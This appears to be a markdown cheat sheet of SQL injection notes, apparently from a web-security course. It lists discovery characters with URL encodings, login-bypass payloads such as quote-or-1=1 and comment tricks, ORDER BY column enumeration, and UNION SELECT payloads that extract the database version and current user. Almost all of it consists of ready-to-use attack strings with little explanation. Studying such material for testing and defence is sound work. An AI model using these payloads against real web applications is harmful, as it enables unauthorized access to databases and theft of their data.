




# SQL Injections

<figure><figcaption></figcaption></figure>

## Basic SQLi Discovery

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

### Basic Injection

<pre><code><strong>tom' or '1'='1
</strong></code></pre>

<figure><figcaption></figcaption></figure>

### Using Comments

```
admin'--
```

<figure><figcaption></figcaption></figure>

#### Another Example

```
admin')--
admin') -- -
```

<figure><figcaption></figcaption></figure>

```
') or id = 5 -- -
```

<figure><figcaption></figcaption></figure>

### UNION Injection

#### Using ORDER BY

```
' order by 1-- -
# We do the same for column 3 and 4 and get the results back. However, when we try to ORDER BY column 5, we get the following error:
```

<figure><figcaption></figcaption></figure>

Using UNION

```
cn' UNION select 1,2,3-- -
```

<figure><figcaption></figcaption></figure>

```
cn' UNION select 1,@@version,3,4-- -
```

<figure><figcaption></figcaption></figure>

#### Other Example

```
cn' union select 1,user(),3,4-- -
```

<figure><figcaption></figcaption></figure>
